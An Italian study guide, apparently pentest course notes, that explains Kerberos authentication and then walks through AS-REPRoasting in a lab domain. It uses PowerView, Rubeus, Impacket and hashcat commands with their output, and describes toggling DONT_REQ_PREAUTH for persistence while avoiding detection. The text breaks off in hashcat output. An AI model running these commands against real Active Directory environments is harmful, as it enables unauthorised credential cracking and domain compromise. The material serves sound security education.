








- [Kerberos](#kerberos)
  - [Vantaggi rispetto a NTLM (il vecchio sistema)](#vantaggi-rispetto-a-ntlm-il-vecchio-sistema)
  - [Lato sicurezza](#lato-sicurezza)
  - [Autenticazione Kerberos](#autenticazione-kerberos)
    - [Le 3 entità coinvolte](#le-3-entità-coinvolte)
    - [Perché usarlo?](#perché-usarlo)
    - [Come funziona? (3 fasi)](#come-funziona-3-fasi)
      - [Le 3 fasi — panoramica ad alto livello](#le-3-fasi--panoramica-ad-alto-livello)
        - [Protezione dei Ticket](#protezione-dei-ticket)
    - [Dettagli tecnici sulle 3 fasi](#dettagli-tecnici-sulle-3-fasi)
      - [Fase 1 — Authentication Service (AS)](#fase-1--authentication-service-as)
      - [Fase 2 — Ticket-Granting Service (TGS)](#fase-2--ticket-granting-service-tgs)
      - [Fase 3 — Application Request (AP)](#fase-3--application-request-ap)
- [Panoramica degli Attacchi a Kerberos](#panoramica-degli-attacchi-a-kerberos)
  - [AS-REPRoasting](#as-reproasting)
    - [Perché è pericoloso](#perché-è-pericoloso)
    - [Flusso dell'attacco](#flusso-dellattacco)
    - [Variante "targeted"](#variante-targeted)
    - [Utilizzo nel Red Team](#utilizzo-nel-red-team)
    - [Enumerazione](#enumerazione)
    - [Esecuzione dell'attacco](#esecuzione-dellattacco)
    - [Cracking dell'hash](#cracking-dellhash)
    - [Imposta DONT\_REQ\_PREAUTH con PowerView](#imposta-dont_req_preauth-con-powerview)
    - [AS-REPRoasting from Linux](#as-reproasting-from-linux)
      - [Enumerazione degli utenti AS-REPRoastable](#enumerazione-degli-utenti-as-reproastable)
      - [Richiesta di hash AS-REPRoastable](#richiesta-di-hash-as-reproastable)
      - [Individuare account vulnerabili senza autenticazione](#individuare-account-vulnerabili-senza-autenticazione)
      - [Se si hanno delle credenziali](#se-si-hanno-delle-credenziali)
  - [Kerberoasting](#kerberoasting)
    - [Cos'è un SPN?](#cosè-un-spn)
      - [Account di Servizio vs Account Utente](#account-di-servizio-vs-account-utente)
      - [Dettagli](#dettagli)
      - [Controllo Manuale](#controllo-manuale)
      - [Strumenti Automatizzati](#strumenti-automatizzati)
      - [Cracking dell'hash](#cracking-dellhash-1)
      - [Kerberoasting senza password dell'account](#kerberoasting-senza-password-dellaccount)
        - [Perchè è pericolo?](#perchè-è-pericolo)
        - [AS-REP Roasting vs Kerberoasting senza credenziali](#as-rep-roasting-vs-kerberoasting-senza-credenziali)
      - [Kerberoasting from Linux](#kerberoasting-from-linux)
    - [Attacchi sulla Kerberos Delegation](#attacchi-sulla-kerberos-delegation)
    - [Attacchi di Ticket Forging](#attacchi-di-ticket-forging)
      - [Golden Ticket](#golden-ticket)
        - [Golden Ticket su Windows](#golden-ticket-su-windows)
        - [Golden Ticket su Linux](#golden-ticket-su-linux)
      - [Silver Ticket](#silver-ticket)
        - [Silver Ticket su Windows](#silver-ticket-su-windows)
        - [Silver Ticket su Linux](#silver-ticket-su-linux)
      - [Pass-the-Ticket](#pass-the-ticket)
        - [Processi sacrificali](#processi-sacrificali)
        - [Processo sacrificale senza privilegi amministrativi](#processo-sacrificale-senza-privilegi-amministrativi)
    - [Enumeration e Password Spraying](#enumeration-e-password-spraying)
      - [Installazione di Kerbrute](#installazione-di-kerbrute)
      - [Enumerazione degli utenti](#enumerazione-degli-utenti)
      - [Password spraying](#password-spraying)


# Kerberos
È un protocollo di autenticazione centralizzato che usa dei "ticket" invece delle password. Funziona sulla porta 88 ed è il sistema predefinito per i domini Windows dal 2000. Il vantaggio principale è che la password dell'utente non viaggia mai sulla rete.
Come funziona (semplificato)

- L'utente chiede un "documento d'identità" a un server centrale (il KDC)
- Dopo aver provato la propria identità, riceve un TGT (Ticket Granting Ticket), cioè appunto il suo "documento"
- Ogni volta che vuole accedere a un servizio, presenta questo TGT
- Il server centrale gli rilascia allora un ticket temporaneo specifico per quel servizio
- Il servizio riceve il ticket e decide se concedere o meno l'accesso

> Il servizio di concessione dei ticket (TGS) di Kerberos si basa su un ticket di concessione dei ticket (TGT) valido. Parte dal presupposto che, se un utente possiede un TGT valido, deve aver dimostrato la propria identità.

## Vantaggi rispetto a NTLM (il vecchio sistema)
Prima di Kerberos si usava NTLM, dove l'hash della password rimaneva in memoria. Se un hacker comprometteva una macchina, poteva usare quell'hash per accedere a tutto (attacco Pass-The-Hash). Con Kerberos i ticket sono limitati a specifiche macchine e hanno una scadenza, il che riduce significativamente il danno potenziale.

## Lato sicurezza
Nonostante sia più sicuro di NTLM, esistono comunque attacchi come il Pass-The-Ticket o il famoso Golden Ticket attack, ma con limitazioni maggiori rispetto agli attacchi sul vecchio sistema.


## Autenticazione Kerberos

### Le 3 entità coinvolte
- Utente – chi vuole accedere a un servizio
- KDC (Key Distribution Center) – il server centrale che conosce le credenziali di tutti
- Servizio – la risorsa a cui l'utente vuole accedere


### Perché usarlo?
Due motivi principali:

- Centralizzazione – solo il KDC deve conoscere le credenziali di tutti gli utenti, non ogni singolo servizio
- Sicurezza – le password non viaggiano mai in chiaro sulla rete, proteggendo dagli attacchi man-in-the-middle
- Kerberos usa chiavi segrete e un meccanismo a ticket. In un ambiente Active Directory, le chiavi segrete sono le password degli account (o un loro hash).

### Come funziona? (3 fasi)


#### Le 3 fasi — panoramica ad alto livello
1. **L'utente richiede il TGT al KDC**: Il TGT (Ticket Granting Ticket) è la "carta d'identità" dell'utente. Contiene: nome, data di creazione dell'account, informazioni di sicurezza, gruppi di appartenenza, ecc. Ha una validità di poche ore. Viene presentato per tutte le richieste successive al KDC.
2. **L'utente presenta il TGT al KDC per ottenere un TGS**: Il KDC verifica che il TGT sia valido e non contraffatto, poi restituisce un TGS ticket (Ticket Granting Service) o ST (Service Ticket). Il TGS contiene una copia delle informazioni dell'utente presenti nel TGT.
3. **L'utente presenta il TGS al servizio**: Il servizio verifica la validità del ticket, legge le informazioni dell'utente e decide autonomamente se concedere o negare l'accesso. È quindi il servizio stesso a controllare i diritti di accesso.

##### Protezione dei Ticket
Le informazioni nel TGT e TGS non devono poter essere falsificate dall'utente. Ecco come vengono protette:

- Il TGT è cifrato con la chiave segreta del KDC → l'utente non può né leggerlo né modificarlo
- Il TGS ticket è cifrato con la chiave segreta del servizio → l'utente non può modificarlo, ma il servizio può decifrarlo e leggere le informazioni dell'utente



### Dettagli tecnici sulle 3 fasi
L'intero processo si basa su chiavi condivise ed è un lavoro a tre entità. Protegge da attacchi di ticket stealing e replay, perché un attaccante senza le chiavi non può generare authenticator validi. Tuttavia il documento avverte che esistono debolezze e configurazioni errate che possono essere sfruttate — argomento trattato nelle sezioni successive.
- https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos.pdf


#### Fase 1 — Authentication Service (AS)

**Richiesta AS-REQ:**

- L'utente invia al KDC il proprio username in chiaro + un authenticator (il timestamp corrente cifrato con la propria chiave)
- Il KDC cerca la chiave associata all'username e tenta di decifrare l'authenticator
- Se riesce → utente autenticato; se fallisce → autenticazione negata

Questo step si chiama **pre-autenticazione** ed è obbligatorio per default. Tuttavia un amministratore può disabilitarla: in quel caso il KDC invia il TGT senza verificare nulla (vulnerabilità).

**Risposta AS-REP:** 


Il KDC genera una session key temporanea (Kerberos è stateless, quindi non la salva da nessuna parte) e risponde con due elementi:
- Il TGT — contiene le informazioni dell'utente + una copia della session key, il tutto cifrato con la chiave del KDC
La session key — cifrata con la chiave dell'utente

Quindi la session key è duplicata nella risposta: una copia dentro il TGT (protetta dalla chiave del KDC) e una copia separata (protetta dalla chiave dell'utente).


#### Fase 2 — Ticket-Granting Service (TGS)
Il TGS è una componente del KDC, tipicamente ospitata su un domain controller in Active Directory, responsabile dell'emissione dei service ticket.

**Richiesta TGS-REQ:** 


L'utente invia al KDC tre cose:
- Il nome del servizio a cui vuole accedere (nella forma SERVICE/HOST, chiamato SPN — Service Principal Name)
- Il TGT ricevuto in precedenza
- Un nuovo authenticator, questa volta cifrato con la session key

**Risposta TGS-REP:** 

Poiché Kerberos è stateless, il KDC non ricorda gli scambi precedenti. Per verificare l'authenticator, decifra il TGT, estrae la session key contenuta al suo interno e la usa per validare l'authenticator.
Se tutto è corretto, il KDC genera una nuova session key per gli scambi futuri tra utente e servizio e risponde con:

Un TGS ticket contenente:
- Il nome del servizio (SPN)
- Una copia delle informazioni dell'utente (dal TGT)
- Una copia della nuova session key utente/servizio

Tutto cifrato con la session key utente/KDC. Le informazioni dell'utente e la copia della session key utente/servizio sono ulteriormente cifrate con la chiave del servizio (doppio livello di cifratura).


#### Fase 3 — Application Request (AP)
**Richiesta AP-REQ:** 

L'utente decifra la risposta del KDC, estrae la session key utente/servizio e il TGS ticket (che però rimane cifrato con la chiave del servizio, quindi non può modificarlo). Invia al servizio:

- Il TGS ticket
- Un authenticator cifrato con la session key utente/servizio

**Risposta AP-REP:** Il servizio riceve il TGS ticket e lo decifra con la propria chiave. Estrae la session key utente/servizio e verifica l'authenticator. Se tutto è valido:

- Legge le informazioni dell'utente (inclusi i gruppi di appartenenza)
- Secondo le proprie regole di accesso, concede o nega l'accesso
- Risponde al client con un AP-REP, cifrando il timestamp con la session key estratta, così il client può verificare che il messaggio provenga davvero dal servizio


# Panoramica degli Attacchi a Kerberos
Categorie:
- Attacchi legati alle richieste di ticket
- Attacchi di forging (falsificazione) dei ticket
- Attacchi legati alla delegation
- Ricognizione utenti e password spraying


## AS-REPRoasting
Attacco Kerberos più elementare, che prende di mira la "Pre-autenticazione". È raro in un'azienda, ma è uno dei pochi attacchi Kerberos che non richiede alcuna forma di autenticazione preventiva. L'unica informazione di cui l'attaccante ha bisogno è il nome utente che vuole attaccare, che può essere trovato anche utilizzando altre tecniche di enumerazione. Una volta ottenuto il nome utente, l'attaccante invia uno speciale pacchetto AS_REQ (Authentication Service Request) al KDC (Key Distribution Center), fingendosi l'utente. Il KDC risponde con un pacchetto AS_REP, che contiene una porzione di informazioni crittografate con una chiave derivata dalla password dell'utente. La chiave può essere decifrata offline per ottenere la password dell'utente.

AS-REPRoasting è una tecnica potente per trovare e decifrare le password degli account con pre-authentication disabilitata. Questa impostazione non è molto diffusa, ma si può occasionalmente, e il suo successo dipende dal fatto che un account abbia una password crittograficamente debole, tale da poter essere decifrata in un tempo ragionevole (con uno strumento come Hashcat).

**Il problema: Pre-autenticazione disabilitata**

In Kerberos normale, quando un utente vuole un TGT:
  1. Il client invia un AS_REQ con un timestamp cifrato con la propria password
  2. Il DC decifra il timestamp per verificare che la password sia corretta
  3. Solo allora rilascia il TGT



Se l'account ha **DONT_REQ_PREAUTH** abilitato, il DC salta il passaggio 1 e rilascia il TGT a chiunque lo chieda, senza verificare la password. Questi ticket sono vulnerabili agli attacchi di password offline tramite strumenti come Hashcat o John the Ripper.



> Questa impostazione può essere enumerata con Impacket, PowerView, o strumenti integrati come il PowerShell ADmodulo.


### Perché è pericoloso

Il TGT restituito nell'AS_REP contiene una porzione cifrata con la chiave derivata dalla password dell'utente. Un attaccante può:
  1. Richiedere l'AS_REP per quell'account (senza autenticarsi)
  2. Estrarre l'hash cifrato
  3. Craccarlo offline con Hashcat (mode -m 18200) o John the Ripper

### Flusso dell'attacco
```
  Attaccante ──AS_REQ (senza preauth)──► KDC
  Attaccante ◄──AS_REP (hash cifrato)── KDC
  Attaccante ──offline crack──► password in chiaro
```
> L'attacco può essere eseguito con Impacket , il toolkit Rubeus e altri strumenti per ottenere il ticket per l'account target. 

Requisiti

- Solo il nome utente della vittima (nessuna password richiesta)
- L'account deve avere DONT_REQ_PREAUTH settato

### Variante "targeted"

Se l'attaccante ha permessi GenericAll/GenericWrite su un account, può:
1. Abilitare DONT_REQ_PREAUTH con PowerView (Set-DomainObject -XOR @{useraccountcontrol=4194304})
2. Eseguire l'attacco
3. Disabilitare il flag (per non lasciare tracce)

> AS-REPRoasting è simile a Kerberoastingma implica l'attacco AS-REPinvece di TGS-REP.
>
> In sostanza: AS-REPRoasting attacca utenti che non richiedono pre-autenticazione, mentre Kerberoasting attacca account di servizio con SPN registrati.

### Utilizzo nel Red Team
I Red Team possono utilizzare AS-REPRoasting in due catene di attacco:

- Persistence: L'impostazione di flag DONT_REQ_PREAUTH sugli account consentirebbe agli aggressori di riottenere l'accesso agli account in caso di cambio di password. Ciò è utile perché permette al team di stabilire la persistenza su dispositivi che probabilmente non rientrano nell'ambito del monitoraggio (ad esempio, le stampanti) e che presentano comunque un'alta probabilità di accedere al dominio in qualsiasi momento. Potremmo trovare questa impostazione abilitata sugli account di servizio utilizzati da vecchie applicazioni di gestione e, se rilevata, il team di sicurezza potrebbe ignorarli.
- Privilege Escalation: Esistono molti scenari in cui un utente malintenzionato può modificare qualsiasi attributo di un account, ma non la possibilità di accedervi senza conoscere o reimpostare la password. La reimpostazione della password è pericolosa perché ha un'alta probabilità di far scattare allarmi. Invece di reimpostare la password, gli aggressori possono abilitare questo flag e tentare di decifrare l'hash della password dell'account.

### Enumerazione
```PowerView``` può essere utilizzato per enumerare gli utenti con il flag della proprietà ```UserAccountControl``` (UAC) impostato su ```DONT_REQ_PREAUTH```.

**Enumerazione degli account con DONT_REQ_PREAUTH tramite PowerShell**
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -UACFilter DONT_REQ_PREAUTH
logoncount                    : 0
badpasswordtime               : 12/31/1600 7:00:00 PM
distinguishedname             : CN=Jenna Smith,OU=Server Team,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : Jenna Smith
userprincipalname             : jenna.smith@inlanefreight
name                          : Jenna Smith
objectsid                     : S-1-5-21-2974783224-3764228556-2640795941-1999
samaccountname                : jenna.smith
admincount                    : 1
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 8/3/2020 8:51:43 PM
instancetype                  : 4
usncreated                    : 19711
objectguid                    : ea3c930f-aa8e-4fdc-987c-4a9ee1a75409
sn                            : smith
lastlogoff                    : 12/31/1600 7:00:00 PM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata         : {7/30/2020 6:28:24 PM, 7/30/2020 3:09:16 AM, 7/30/2020 3:09:16 AM, 7/28/2020 1:45:00
                                AM...}
givenname                     : jenna
memberof                      : CN=Schema Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
lastlogon                     : 12/31/1600 7:00:00 PM
badpwdcount                   : 0
cn                            : Jenna Smith
useraccountcontrol            : PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
whencreated                   : 7/27/2020 7:35:57 PM
primarygroupid                : 513
pwdlastset                    : 7/27/2020 3:35:57 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 89508
```
> Possiamo inoltre utilizzare lo strumento Rubeus per cercare account che non richiedono la pre-autenticazione tramite l' azione preauthscan.

> Nota: possiamo anche usare Rubeus.exe asreproast /format:hashcatper enumerare tutti gli account con il flag DONT_REQ_PREAUTH.

### Esecuzione dell'attacco
Rubeus può essere utilizzato per recuperare l'AS-REP nel formato corretto per il cracking dell'hash offline. Questo attacco non richiede alcun contesto utente di dominio e può essere effettuato semplicemente conoscendo il nome dell'account dell'utente senza pre-autenticazione Kerberos.
```
PS C:\Tools> .\Rubeus.exe asreproast /user:jenna.smith /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target User            : jenna.smith
[*] Target Domain          : inlanefreight.local
[*] Target DC              : dc01.inlanefreight.local

[*] Using domain controller: dc01.inlanefreight.local (fe80::c872:c68d:a355:e6f3%11)
[*] Building AS-REQ (w/o preauth) for: 'inlanefreight.local\jenna.smith'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$jenna.smith@inlanefreight.local:9369076320<SNIP>
```

### Cracking dell'hash
Rubeus restituisce un elenco di hash associati ai vari TGT. Si può usare Hashcat per provare a recuperare la password in chiaro associata a questi diversi account. La modalità hash di Hashcat è 18200( Kerberos 5, etype 23, AS-REP).
```
C:\Tools\hashcat-6.2.6> hashcat.exe -m 18200 C:\Tools\hashes.txt C:\Tools\rockyou.txt -O

hashcat (v6.2.6) starting

OpenCL API (OpenCL 2.1 WINDOWS) - Platform #1 [Intel(R) Corporation]
====================================================================
* Device #1: AMD EPYC 7401P 24-Core Processor, 2015/4094 MB (511 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: C:\Tools\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$jenna.smith@INLANEFREIGHT.LOCAL:c4caff1049fd667...9b96189d8804:dancing_queen101
<SNIP>
```

> Hashcat è riuscito a decifrare la password di uno dei due utenti AS-REPRoastable. In un'azione reale, potremmo quindi verificare se l'account di questo utente potrebbe essere utilizzato per ottenere un punto d'appoggio iniziale nel dominio, per espanderci lateralmente e ampliare la nostra influenza, oppure per elevare i nostri privilegi.

### Imposta DONT_REQ_PREAUTH con PowerView
Se scopriamo di avere ```GenericAll``` su un account, invece di reimpostare la password, possiamo abilitare il ```DONT_REQ_PREAUTH``` per effettuare una richiesta di hash dell'account e tentare di decifrarlo. Possiamo utilizzare il modulo PowerView per farlo (cambia ```username```):
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=userName)(name=userName)(displayname=userName))))
VERBOSE: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'userName'
```

### AS-REPRoasting from Linux
```GetNPUsers.py``` di Impacket può essere utilizzato per enumerare gli utenti con il loro valore UAC impostato su ```DONT_REQ_PREAUTH```.

> Nota: quando si lavora con Kerberos su Linux, è necessario utilizzare il server DNS del target o configurare la macchina host con le voci DNS corrispondenti per il dominio che si intende attaccare. In altre parole, è necessario disporre di una voce /etc/hosts per il dominio/controller di dominio prima di poterlo attaccare.
>
> Per esempio: 10.129.205.35 ACADEMY-KERBATTCK-2-DC01 inlanefreight.local


#### Enumerazione degli utenti AS-REPRoastable
```
Nanan@htb[/htb]$ GetNPUsers.py inlanefreight.local/pixis

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation


Name         MemberOf                                             PasswordLastSet             LastLogon                   UAC      
-----------  ---------------------------------------------------  --------------------------  --------------------------  --------
amber.smith                                                       2020-07-27 21:35:52.333183  2020-07-28 20:34:15.215302  0x410220 
jenna.smith  CN=Schema Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 21:35:57.901421  <never>                     0x410220
```

Ora che abbiamo un elenco di account vulnerabili, possiamo richiedere i loro hash nel formato di Hashcat aggiungendo il parametro ```-request``` al nostro comando.


#### Richiesta di hash AS-REPRoastable
```
Nanan@htb[/htb]$ GetNPUsers.py inlanefreight.local/pixis -request           

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation


Name         MemberOf                                             PasswordLastSet             LastLogon                   UAC      
-----------  ---------------------------------------------------  --------------------------  --------------------------  --------
amber.smith                                                       2020-07-27 21:35:52.333183  2020-07-28 20:34:15.215302  0x410220 
jenna.smith  CN=Schema Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 21:35:57.901421  2020-08-12 16:20:21.383297  0x410220 

$krb5asrep$23$amber.smith@INLANEFREIGHT.LOCAL:d28eecddc8c5e18157b3d73ec4a68aa5$2a881995d52a313d265<SNIP>
$krb5asrep$23$jenna.smith@INLANEFREIGHT.LOCAL:e65a2fa83383a0c1f189408c07fe6d32$5b0478cd94258778478<SNIP>
```

#### Individuare account vulnerabili senza autenticazione
Se non disponiamo delle credenziali sul dominio ma abbiamo un elenco di nomi utente, possiamo comunque trovare gli account che non richiedono la pre-autenticazione. Utilizzando ```GetNPUsers.py```, possiamo cercare ogni account all'interno del file contenente l'elenco degli utenti per identificare se esiste almeno un account vulnerabile a questo attacco:
```
Nanan@htb[/htb]$ GetNPUsers.py INLANEFREIGHT/ -dc-ip 10.129.205.35 -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-pass

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Potremmo ricevere un errore, ma otterremo comunque l'hash dell'account:
```
Nanan@htb[/htb]$ cat /tmp/hashes.txt

$krb5asrep$23$amber.smith@INLANEFREIGHT:d28eecddc8c5e18157b3d73ec4a68aa5$2a881995d52a313d265<SNIP>
```

E poi lo si può decifrare:

```
Nanan@htb[/htb]$ hashcat -m 18200 hashes.txt rockyou.txt

hashcat (v5.1.0) starting...
<SNIP>
$krb5asrep$23$jenna.smith@INLANEFREIGHT.LOCAL:c4caff1049fd667<SNIP>9b96189d8804:dancing_queen101
<SNIP>
Session..........: hashcat
Status...........: Exhausted
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: hashes.txt
Time.Started.....: Wed Aug 12 16:37:48 2020 (18 secs)
Time.Estimated...: Wed Aug 12 16:38:06 2020 (0 secs)
Guess.Base.......: File (Tools/Cracking/Wordlists/Passwords/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
